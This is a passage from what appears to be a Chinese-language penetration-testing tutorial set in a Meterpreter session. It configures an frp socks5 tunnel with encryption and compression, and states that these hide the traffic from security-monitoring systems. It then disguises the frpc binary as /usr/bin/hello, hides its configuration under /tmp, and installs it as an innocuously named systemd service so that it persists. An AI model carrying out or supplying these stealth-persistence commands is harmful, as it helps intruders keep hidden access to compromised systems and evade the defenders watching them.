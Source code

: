 | 操作                   | 描述             |
| ---------------------- | ---------------- |
| plugin = socks5        | 指定 socks5 插件 |
| use_encryption = true  | 启用加密         |
| use_compression = true | 启用压缩         |

> 启用加密和压缩可以防止流量被一些态势感知系统识别。但是还是可以看得到数据来源。

配置 frpc 客户端自启动，并更改名称

> 也可隐藏进程

```
meterpreter > mv frpc /usr/bin/hello
```

建立配置文件目录

```
meterpreter > mkdir /tmp/hello
```

> 尽量隐蔽

移动配置文件到新目录

```
meterpreter > mv frp_0.49.0_linux_amd64 /tmp/hello/
```

配置 frp 服务

```
meterpreter > edit /etc/systemd/system/hello
```

```
[Unit]
Description=Hello Service
After=network.target

[Service]
Type=simple
ExecStart=/usr/bin/hello -c /tmp/hello/frpc.ini
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

进入 shell ，重新加载 systemd 配置

```
meterpreter > shell
sudo systemctl daemon-reload
```

启动 frpc
